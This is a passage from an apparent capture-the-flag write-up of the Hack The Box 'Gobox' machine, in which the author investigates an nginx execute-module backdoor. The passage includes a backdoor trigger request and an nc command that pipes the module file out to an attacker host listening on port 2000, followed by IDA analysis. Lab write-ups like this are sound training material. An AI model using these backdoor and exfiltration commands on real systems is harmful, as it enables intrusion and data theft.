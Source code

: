 ```
www-data@gobox:/etc/nginx/sites-enabled$ curl -g http://127.0.0.1:8000/?system.run[id]  
curl -g http://127.0.0.1:8000/?system.run[id]
curl: (52) Empty reply from server
```

Researching on the NginxExecute exploit, it seems that this exploit requires ngx_http_execute_module.so to be loaded. Let us first take a look at /etc/nginx/nginx.conf file to check if we can find where ngx_http_execute_module.so is loaded. From the nginx.conf file, we can see that the configuration files from /etc/nginx/modules-enabled are being included when the server is deployed.

```
include /etc/nginx/modules-enabled/*.conf;
```

Looking up the configuration files in /etc/nginx/modules-enabled, we can see that ngx_http_execute.so is being loaded in the 50-backdoor.conf file. 

```
www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf
cat 50-backdoor.conf
load_module modules/ngx_http_execute_module.so;
```

Since ngx_http_execute_module.so is being loaded in the configuration file, the exploit should have worked. Let us first find the location of the ngx_http_execute_module.so file 

```
www-data@gobox:/etc/nginx/modules-enabled$ find / -name ngx_http_execute_module.so 2>/dev/null
find / -name ngx_http_execute_module.so 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
```

Afterwards, let us trasnfer the ngx_http_execute_module.so file to our local machine so that we can examine the file in greater detail

```
www-data@gobox:/usr/lib/nginx/modules$ cat ngx_http_execute_module.so | nc 10.10.16.6 2000
cat ngx_http_execute_module.so | nc 10.10.16.6 2000
www-data@gobox:/usr/lib/nginx/modules$ 
-------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Desktop/gobox]
└─$ nc -nlvp 2000 > ngx_http_execute_module.so
listening on [any] 2000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.113] 53236
^C
┌──(kali㉿kali)-[~/Desktop/gobox]
└─$  
```

### Analysis of ngx_http_execute_module.so
Using IDA to analyze ngx_http_execute_module.so, we can see that in the ngx_http_execute_handler function, there is a ```memcmp``` function called to compare a variable with the string ```ippsec.run```and if the comparison returns true the response headers will be set

![ngx_http_execute_handler](https://github.com/joelczk/writeups/blob/main/HTB/Images/Gobox/ngx_http_execute_handler.png)
